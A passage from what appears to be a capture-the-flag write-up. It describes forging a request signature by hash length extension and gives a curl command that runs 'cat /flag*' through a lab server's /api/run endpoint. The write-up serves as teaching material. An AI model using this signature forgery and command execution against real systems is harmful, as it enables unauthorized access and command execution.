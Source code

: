 ```python

pred_sign = octothorpe(append, _length=final_length, _state=bytearray.fromhex(signature)).hexdigest()
print("\n\n", pred_sign, "\n\n")
```

Note that the command we append is `cat /flag*` which contains the encoded flag.

The entire sequence looks now like this:

1. Make the regular request, and capture the `signature` and `expiry` timestamp

![regular request](images/regular-request.png)

2. Feed the legitimate `signature` to `predict.py` script, which will add the new data and calculate a valid signature

![calculate the predicted hash](images/predict-hash.png)

3. Use the predicted signature in a `curl` request to talk directly with the `/api/run` endpoint

```bash
curl --get -v -G "http://172.17.0.2/api/run?expiry=`cat ./expiry`" --data-urlencode cmd@urlpar -d 'cmd=cat+/flag*' -H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:84.0) Gecko/20100101 Firefox/84.0' -H 'Accept: */*' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Referer: http://172.17.0.2/' -H 'Connection: keep-alive' -H @header_sign -H 'Pragma: no-cache' -H 'Cache-Control: no-cache'
```
Note that `expiry` and the `Cookie` header containing the signature are read from file. This was to facilitate the execution of the exploit, since the `expiry` timestamp give us only 15 seconds to execute the call, after that the request would fails as expired.
